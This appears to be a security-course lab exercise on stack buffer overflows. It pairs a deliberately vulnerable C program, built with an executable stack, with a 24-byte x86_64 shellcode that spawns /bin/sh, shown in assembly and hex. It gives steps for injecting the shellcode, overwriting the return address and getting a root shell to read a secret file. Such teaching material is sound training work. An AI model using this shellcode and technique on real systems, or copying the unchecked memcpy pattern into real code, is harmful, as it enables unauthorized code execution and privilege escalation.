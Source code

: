 Excercise Buffer Overflow Stack
-------------------------------


The code we will use for our exploitation is as follows:

.. code:: c

    #include <stdio.h>
    #include <string.h>

    int main(int argc, char **argv) {
      char buffer[16];
      char buffer2[16];

      buffer[15]='\0';
      buffer2[15]='\0';

      printf("Hello Buffers\n\n");

      for (int i=0;i<argc;i++){
        printf("argv[%d]: %s\n", i, argv[i]);

      }
      printf("Buffer2: @%p\n", &buffer2);
      printf("Buffer : @%p\n", &buffer);

      memcpy(buffer2,argv[1], strlen(argv[1]));

      printf("Buffer2: @%p [%s]\n", &buffer2, buffer2);
      printf("Buffer : @%p [%s]\n", &buffer, buffer);

      return 0;
    }


Tasks: The code contains a buffer overflow vulnerability. The goal of this
excercise is to exploit this vulnerability and use it to spawn a shell.

#. Locate the buffer overflow vulnerability inside the code

#. Compile your code as follows:

   ``gcc -g stack_variables/stack.c -z execstack -o output/stack_exec_stack``

#. Play around with the command line arguments and understand what happens
   inside the code

   ``./output/stack_exec_stack parameter``

#. Answer the following questions:
   
   #. How many Bytes do you need to overflow until you receive a segmentation
      fault?
   
   #. How many Bytes are available in your buffer?

#. Got to https://www.exploit-db.com/exploits/42179/ , look at the file
   ``exploit_shellcode.c`` or check the summary below.
   
   Quick summary:
       .. code::
        
        ##########
        # Source #
        ##########
        section .text
            global _start
            _start:
              push rax           /*
              xor rdx, rdx        * Prolog
              xor rsi, rsi        */
              mov rbx,'/bin//sh' /* important line! */
              push rbx           /* 
              push rsp            * setup stack frame
              pop rdi             */
              mov al, 59         /* xx refers to ??? syscall*/
              syscall            /* execute ???*/

        ######################## 
        # shellcode (24 bytes) #
        ########################
        
            \x50\x48\x31\xd2\x48\x31\xf6\x48
            \xbb\x2f\x62\x69\x6e\x2f\x2f\x73
            \x68\x53\x54\x5f\xb0\x3b\x0f\x05

#. Try to understand what the shellcode does. Questions:

   #. Which syscall is used by the shellcode?
   #. Why is the 1st parameter put in a register?


#. Use the shellcode and find a way how to inject this code into your
   buffers.

   - E.g. ``./output/stack_exec_stack $(python -c 'print "\x50..."')``

#. Figure out the padding you will need between your buffer and the return
   address

#. Figure out the correct address that points to your shellcode and overwrite
   the areturn address accordingly. (Note: X86_64 uses little endian byte
   order!)

#. Put everything together in a single command line argument and execute your
    exploit.

#. There is a precompiled version of this program available.
    ``output/stack_exec_root``. Use what you learnt and exploit this program instead.

    - Once you have a shell (this time this is a root shell) 
      read the contents of the file ``secret`` to get the password for the root account.


